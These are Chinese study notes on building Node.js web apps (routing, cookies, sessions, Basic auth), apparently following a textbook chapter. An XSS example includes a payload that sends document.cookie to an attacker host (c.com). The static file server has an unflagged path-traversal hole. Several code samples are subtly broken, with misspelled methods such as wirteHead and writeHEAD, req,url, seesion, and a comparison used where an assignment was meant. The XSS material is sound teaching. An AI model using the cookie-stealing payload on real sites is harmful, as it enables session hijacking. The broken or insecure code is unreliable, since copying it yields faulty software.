

# 《深入浅出NodeJs》学习笔记（八）

## 第8章 构建Web应用

> Node 的出现将前后端的壁垒再次打破，JavaScript这门初就能运行在服务器端的语言，在经历了前端 的辉煌和后端的低迷后，借助事件驱动和V8的高性能，再次成为了服务器端的佼佼者。在Web应 用中，JavaScript将不再仅仅出现在前端浏览器中，因为Node的出现，“前端”将会被重新定义。 
>
> 单从框架而言，在后端数 得出来大名的就有Structs、CodeIgniter、Rails、Django、web.py等，在前端也有知名的BackBone、 Knockout. js、AngularJS、Meteor等。在Node中，有Connect中间件，也有Express这样的MVC框架。 值得注意的是Meteor框架，它在后端是Node，在前端是JavaScript，它是一个融合了前后端 JavaScript的框架。 

本章会展开描述Web应用在后端实现中的细节和原理。 

### 8.1 基础内容

> 本章的Web应用方面的内容， 将从http模块中服务器端的request事件开始分析。request事件发生于网络连接建立，客户端向 服务器端发送报文，服务器端解析报文，发现HTTP请求的报头时。在已触发reqeust事件前，它 已准备好ServerRequest和ServerResponse对象以供对请求和响应报文的操作。 

下面是一个调用 ServerResponse 来实现响应的最简单例子：

```javascript
var http = require('http')
http.createServer(function (req, res) {
    res.wirteHead(200, {'Content-Type': 'text/plain'})
    res.end('Hello World')
}).listen(1337, '127.0.0.1')
console.log('Server running at http://127.0.0.1:1337/')
```

当然，对于一个完整的 Web 应用来说，上面这种简单的响应肯定是不够的。在具体的业务中，我们至少还会有如下的需求：

- 请求方法判断
- URL 路径解析
- URL query字符串解析
- Cookie 解析
- Basic 认证
- 表单数据的解析
- 上传文件的处理

除此以外，可能还会有 Session 的需求。而我们要做的就是将所有的响应包装成一个函数传递给 createServer() 方法作为 request 事件的侦听器：

```javascript
var app = connect()
http.createServer(app).listen(1337)
```

#### 8.1.1 请求方法

HTTP_Parser在解析请求报文的时候，将报文头抽取出来，设置为req.method。

> 通常，我们 只需要处理GET和POST两类请求方法，但是在RESTful类Web服务中请求方法十分重要，因为它会 决定资源的操作行为。PUT代表新建一个资源，POST表示要更新一个资源，GET表示查看一个资源， 而DELETE表示删除一个资源。

```javascript
function (req, res) {
    switch (req.method) {
        case 'POST':
          create(req, res)
          break
        case 'GET':
        default:
          get(req, res)
    }
}
```

上面的伪代码可以根据请求方法将复杂的业务逻辑进行分发，化繁为简。

#### 8.1.2 路径解析

HTTP_Parser 将其解析为 req.url，其中 hash 部分会被丢弃，不存在于报文的任何地方。

我们可以使用这个路径来构造一个静态文件服务器。

```javascript
function (req, res) {
    var pathname = url.parse(req.url).pathname
    fs.readFile(path.join(ROOT, pathname), function (err, file) {
        if (err) {
            res.writeHead(404)
            res.end('---404 NOT FOUD---')
            return
        }
        res.writeHEAD(200)
        res.end(file)
    })
}
```

还有一种常见的分发场景是根据路径来选择控制器，通过预设路径为控制器和行为的组合，无需额外配置路由信息。

举个例子，如果访问 url 为 `/controller/action/a/b/c`该 url 会对应到控制器的行为，将剩余的值作为参数进行别的判断：

```javascript
function (req, res) {
    var pathname = url.parse(req,url).pathname
    var paths = pathname.split('/')
    var controller = paths[1] || 'index'
    var action = paths[2] || 'index'
    var args = paths.slice(3)
    if (handles[controller] && handles[controller][action]) {
        handles[controller][action].apply(null, [req, res].concat(args))
    } else {
        res.writeHead(500)
        res.end('找不到响应的控制器')
    }
}
```

这样我们就可以在控制器部分专心实现业务逻辑了：

```javascript
handles.index = {}
handles.index.index = function (req, res, foo, bar) {
    res.writeHead(200)
    res.end(foo)
}
```

#### 8.1.3 查询字符串

Node 提供了 querystring 模块用于 url 中属于 query 部分的数据：

```javascript
var url = require('url')
var querystring = require('querystring')
// 方法1
var query = querystring.parse(url.parse(req.url).query)
// 方法2
var query = url.parse(req.url, true).query
```

它会将 url 中 `foo=bar&baz=val` 解析成一个对象`{foo: 'bar', baz: 'val'}`。

要注意的是，如果查询字符串中的键出现多次，那么它的值会是一个数组：

```javascript
//  foo=bar&foo=baz
var query = url.parse(req.url, true).query
// { foo: ['bar', 'baz'] }
```

#### 8.1.4 Cookie

> HTTP是一个无状态的协议，现实中的业务却是需要一定的状态的，否则无法区分用 户之间的身份。如何标识和认证一个用户，最早的方案就是Cookie（曲奇饼）了。

Cookie的处理分为以下几步：

- 服务器向客户端发送Cookie
- 浏览器将Cookie保存
- 之后每次浏览器都会将Cookie发向服务器端

使用 curl 工具，可以模拟浏览器向后端发送带 Cookie 字段的请求：

```shell
curl -v -H "Cookie: foo=bar; baz=val" "http://127.0.0.1:1337/path?foo=bar&foo=baz
```

HTTP_Parser 会将所有的报文字段解析到 req.headers 上，那么 Cookie 就是 req.headers.cookie。

Cookie值的格式是key=value; key2=value2形式的 ，我们可以使用如下的代码来进行解析Cookie，从而让它更为方便判断使用。

```javascript
var parseCookie = function (cookie) {
  var cookies = {}
  if (!cookie) {
    return cookies
  }
  var list = cookie.split(';')
  for (var i = 0;i < list.length;i++) {
    var pair = list[i].split('=')
    cookies[pair[0].trim()] = pair[1]
  }
  return cookies
}
```

在业务逻辑代码执行前，我们将其挂载在 req 对象上，使得业务代码可以直接访问，如下：

```javascript
function (req, res) {
  req.cookies = parseCookie(req.headers.cookie)
  handle(req, res) // 业务方法
}
```

后端设置了的Cookie包含以下几个字段：

- path: 当当前访问路径位于该字段下时，浏览器会发送该Cookie，否则不发送
- Ecpires 和 Max-Age 用于告知浏览器的 Cookie 过期时间
- HttpOnly 告知浏览器不允许通过脚本 document.cookie 去更改这个 Cookie 值，但依然会发送这个 Cookie 到服务端
- Secure 该项为 True 的Cookie 将只能在 HTTPS 连接中被传递。

**Cookie的性能影响**

> 于Cookie的实现机制，一旦服务器端向客户端发送了设置Cookie的意图，除非Cookie过期， 否则客户端每次请求都会发送这些Cookie到服务器端，一旦设置的Cookie过多，将会导致报头较 大。大多数的Cookie并不需要每次都用上，因为这会造成带宽的部分浪费。

为了避免这种情况的浪费，我们一般会对使用 Cookie 的网站使用以下两种策略：

- 为静态组件使用不同的域名
- 减少DNS查询

#### 8.1.5 Session

> 通过Cookie，浏览器和服务器可以实现状态的记录。但是Cookie并非是完美的，前文提及的 体积过大就是一个显著的问题，为严重的问题是Cookie可以在前后端进行修改，因此数据就极 容易被篹改和伪造。如果服务器端有部分逻辑是根据Cookie中的isVIP字段进行判断，那么一个 普通用户通过修改Cookie就可以轻松享受到VIP服务了。综上所述，Cookie对于敏感数据的保护是无效的。 
>
> 为了解决Cookie敏感数据的问题，Session应运而生。Session的数据只保留在服务器端，客户 端无法修改，这样数据的安全性得到一定的保障，数据也无须在协议中每次都被传递

我们可以将 Cookie 和 Session 结合起来，将经过服务器加密的口令放在 Cookie 中，这样既可以保证一定的安全性，又可以在服务器端进行状态控制。

那么口令如何产生呢，以下为生成 session 的代码：

```javascript
var sessions = {}
var key = 'session_id'
var EXPIRES = 20 * 60 * 1000
var generate = function () {
    var session = {}
    session.id = (new Date()).getTime() + Math.random()
    session.cookie = {
        expire: (new Date()).getTime() + EXPIRES
    }
    sessions[session.id] = session
    return session
}
```

每个请求到来时，检查 Cookie 中的口令和服务器端的数据，如果过期，就重新生成，如下所示：

```javascript
function (req, res) {
    var id = req.cookies[key]
    if (!id) {
        req.session = generate()
    } else {
        var session = sessions[id]
        if (session) {
            if (session.cookie.expire > (new Date()).getTime()) {
                // 更新超过时间
                session.cookie.expire = (new Date()).getTime() + EXPIRES
                req.session = session
            } else {
                // 超时，删除旧数据并重新生成
                delete sessions[id]
                req.session = generate()
            }
        } else {
            // session 过期或者口令不对，重新生成 session
            req.session = generate()
        }
    }
    handle(req, res)
}
```

同时我们还需要在响应给客户端时设置新的值，以便下次请求时能够对应服务端的数据。这一流程可以通过 hack 响应对象的 writeHead() 方法实现：

```javascript
function hackWriteHead (res) {
    var writeHead = res.writeHead
    res.writeHead = function () {
        var cookies = res.getHeader('Set-Cookie')
        var session = serialize('Set-Cookie', req.session.id)
        cookies = Array.isArray(cookies) ? cookies.concat(session) : [cookies, session]
        res.setHeader('Set-Cookie', cookies)
        // 应用原来的方法
        return writeHead.apply(this, arguments)
    }
}
```

这样，业务逻辑就可以判断和设置 session 并以此来维护用户和服务器端的关系了，如下示例：

```javascript
var handle = function (req, res) {
    hackWriteHead(res)
    if (!req.session.isVisit) {
        res.session.isVisit = true
        res.writeHead(200)
        res.end('欢迎首次来到动物园')
    } else {
        res.writeHead(200)
        res.end('动物园再次欢迎您')
    }
}
```

**当然，除了以上的办法外，我们还可以通过查询字符串来实现浏览器端和服务器端的数据对应**。

```javascript
var getURL = function (_url, key, value) {
    var obj = url.parse(_url, true)
    obj.query[key] = value
    return url.format(obj)
}
```

随后形成 302 跳转，让客户端重新发起请求

```javascript
function (req, res) {
    var redirect = function (url) {
        res.setHeader('Location', url)
        res.writeHead(302)
        res.end()
    }
    var id = req.query[key]
    if (!id) {
        // 首次访问，无 session
        var session = generate()
        redirect(getURL(req.url, key, session.id))
    } else {
        var session = sessions[id]
        if (session) {
            if (session.cookie.expire > (new Date()).getTime()) {
                // 更新超过时间
                session.cookie.expire > (new Date()).getTime() + EXPIRES
                req.seesion = session
                handle(req, res)
            } else {
                // 超时了，删除旧的数据并重新生成
                delete sessions[id]
                var session = generate()
                redirect(getURL(req.url, key, session.id))
            }
        } else {
            // session 过期或者口令不对，重新生成
            var session = generate()
            redirect(getURL(req.url, key, session.id))
        }
    }
}
```

如此就可以不借助 Cookie ，仅借助一个 URL 就完成了身份的认证。但这样也有缺点，即一旦 URL 暴露，就有身份被盗用的风险。

除了以上的两种方法，我们还可以利用 HTTP 请求头中的 ETag 来处理 Session，在此不详加解释。

> 在上面的示例代码中，我们都将Session数据直接存在变量sessions中，它位于内存中。然而 在第5章的内存控制部分，我们分析了为什么Node会存在内存限制，这里将数据存放在内存中将 会带来极大的隐患，如果用户增多，我们很可能就接触到了内存限制的上限，并且内存中的数据 量加大，必然会引起垃圾回收的频繁扫描，引起性能问题。 另一个问题则是我们可能为了利用多核CPU而启动多个进程，这个细节在第9章中有详细描 述。用户请求的连接将可能随意分配到各个进程中，Node的进程与进程之间是不能直接共享内存 的，用户的Session可能会引起错乱。
>
> 为了解决性能问题和Session数据无法跨进程共享的问题，常用的方案是将Session集中化，将 原本可能分散在多个进程里的数据，统一转移到集中的数据存储中。目前常用的工具是Redis、 Memcached等，通过这些高效的缓存，Node进程无须在内部维护数据对象，垃圾回收问题和内存 限制问题都可以迎刃而解，并且这些高速缓存设计的缓存过期策略更合理更高效，比在Node中自 行设计缓存策略更好。
>
> 尽管采用专门的缓存服务会比直接在内存中访问慢，但其影响小之又小，带来的好处却远远 大于直接在Node中保存数据。 为此，一旦Session需要异步的方式获取，代码就需要略作调整，变成异步的方式。

> **XSS漏洞**
>
> XSS的全称是跨站脚本攻击（Cross Site Scripting，通常简称为XSS），通常都是由网站开发者决定哪些脚本可以执行在浏览器端，不过XSS漏洞会让别的脚本执行。它的主要形成原因多数是 用户的输入没有被转义，而被直接执行。
>
> *example*
>
> 下面是某个网站的前端脚本，它会将URL hash中的值设置到页面中，以实现某种逻辑，如下 所示
>
> ```javascript
> $('#box').html(location.hash.replace('#', '')); 
> ```
>
> 攻击者在发现这里的漏洞后，构造了这样的URL：
>
> ```javascript
> http://a.com/pathname#<script src="http://b.com/c.js"></script> 
> ```
>
> 为了不让受害者直接发现这段URL中的猫腻，它可能会通过URL压缩成一个短网址，如下所示：
>
> `http://t.cn/fasdlfj`或者再次压缩 `http://url.cn/fasdlfb` 然后将终的短网址发给某个登录的在线用户。这样一来，这段hash中的脚本将会在这个用 户的浏览器中执行，而这段脚本中的内容如下所示： 
>
> ```javascript
> location.href = "http://c.com/?" + document.cookie;
> ```
> 这段代码将该用户的Cookie提交给了c.com站点，这个站点就是攻击者的服务器，他也就能拿到该用户的Session口令。然后他在客户端中用这个口令伪造Cookie，从而实现了伪装用户的身 份。如果该用户是网站管理员，就可能造成极大的危害

#### 8.1.6 缓存

为了提高性能，有几条关于缓存的规则：

- 添加 Expires 或 Cache-Control 到报文头中
- 配置 ETags
- 让 Ajax 可缓存

通常来说，大多数缓存只应用于 GET 请求中。通过 HTTP 的一些特定 HEAD 字段来判定是否使用缓存。

关于更多 HTTP 缓存字段的内容，可以看[这篇博文](https://blog.liubasara.info/#/post/%E6%B5%85%E8%B0%88HTTP%E7%BC%93%E5%AD%98)

#### 8.1.7 Basic认证

Basic 认证是当客户端与服务器端进行请求时允许通过用户名和密码实现身份认证的方式。

请求报文头中的 Authorization 字段中的值由认证方式和加密值构成，当页面认证方式为 Basic 时，其值如下所示：

```shell
Authorization: Basic dXNlcjpwYXNz 
```

在 Basic 认证中，它会将用户和密码部分组合成 `username:password` 样式，然后再进行 Base64 编码。

```javascript
var encode = function (username, password) {
    return new Buffer(username + ':' + password).toString('base64')
}
```

如果用户首次访问该网页，URL 中也没有认证内容，那么浏览器会响应一个401未授权状态码。

```javascript
function (req, res) {
    var auth = req.headers['authorization'] || ''
    var parts = auth.split(' ')
    var method = parts[0] || '' // Basic
    var encoded = parts[1] || '' // 加密后的字符串
    var decoded = new Buffer(encoded, 'base64').toString('utf-8').split(':')
    var user = decoded[0]
    var pass = decoded[1]
    if (!checkUser(user, pass)) {
        res.setHeader('WWW-Authenticate', 'Basic realm="Secure Area"')
        res.writeHead(401)
        res.end
    } else {
        handle(req, res)
    }
}
```

响应头中的 WWW-Authenticate 字段告知浏览器采用什么样的认证和加密方式。未认证的情况下，会由浏览器弹出对话框进行交互式提交认证信息。



Basic 认证虽然使用方便，但是由于其加密方式过于简单，近乎于明文，十分危险，一般只有在 HTTPS 的情况下才会使用。

### 8.2 数据上传

> 上述的内容基本都集中在HTTP请求报文头中，适用于GET请求和大多数其他请求。头部报文中 的内容已经能够让服务器端进行大多数业务逻辑操作了，但是单纯的头部报文无法携带大量的数 据，在业务中，我们往往需要接收一些数据，比如表单提交、文件提交、JSON上传、XML上传等。

Node 的 http 模块只对 HTTP 报文的头部进行了解析，而其内容部分需要用户自行解析接收。通过报头中的 Transfer-Encoding 或 Content-Length 即可判断请求中是否带有内容。

```javascript
var hasBody = function (req) {
    return 'transfer-encoding' in req.headers || 'content-length' in req.headers
}
```

在 HTTP_Parser 解析报头结束后，可以通过 data 事件触发，以流方式来处理，最后将其挂载在 req.rawBody 上：

```javascript
function (req, res) {
    if (hasBody(req)) {
        var buffers = []
        req.on('data', function (chunk) {
            buffers.push(chunk)
        })
        req.on('end', function () {
            req.rawBody = Buffer.concat(buffers).toString()
            handle(req, res)
        })
    } else {
        handle(req, res)
    }
}
```

#### 8.2.1 表单数据


> 本次阅读至 P195 8.2.1 表单数据 213页